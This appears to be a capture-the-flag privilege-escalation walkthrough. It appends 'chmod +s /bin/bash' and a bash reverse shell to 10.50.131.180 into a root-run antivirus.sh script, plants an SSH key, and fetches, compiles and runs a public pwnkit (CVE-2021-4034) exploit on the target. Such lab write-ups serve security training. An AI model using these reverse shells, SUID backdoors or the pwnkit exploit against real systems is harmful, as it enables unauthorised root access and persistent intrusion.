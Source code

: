 The antivirus.sh file contains some code, we add the last two, understanding it is owned by root it will likely run by root. 

```Bash
#!/bin/bash
rm -rf /etc/bash_completion.d/*.Repository.*
touch /tmp/test
chown root:root /tmp/privshell

chmod +s /bin/bash # < Added
bash -i >& /dev/tcp/10.50.131.180/4444 0>&1 # < Added
```

Running `/bin/bash` will not allow you to be root. Or `bash -p`. This also throws a reverse shell/ 

> From the bash man page:
"...If the -p option is supplied at invocation, the  startup behavior  is the same, but the effective user id is not reset." In other words, it'll run as root since SUID is set and not as isbel.

Alternatively, can add an echo of your public key file to the script

```Bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMF8yKokHk3MlGEuB...
```

Something fun for a POC, add this to the script.

```Bash
echo $(whoami) > /opt/antivirus/user.txt
```
#### Sudo Privesc
Stabilize the shell

- Sudo is vulnerable to "pwnkit"
- Version: Sudo version 1.8.9p5
- Download from here
```Bash
git clone https://github.com/berdav/CVE-2021-4034.git
```

OR 

```Bash
https://github.com/arthepsy/CVE-2021-4034

# Then have to compile it with

gcc filename.c -o binary_file_name
```

- Send it on a python server to the victim. 

```Bash
wget -O CVE-PWNKIT -np -r 10.50.131.180:8080/CVE-2021-4034/
ls
cd 10.50.131.180\:8080/
ls
cd CVE-2021-4034/
ls
clear
make
ls
cd dry-run/
ls
chmod +x pwnkit-dry-run.c 
./pwnkit-dry-run.c 
cd ..
ls
./cve-2021-4034
```
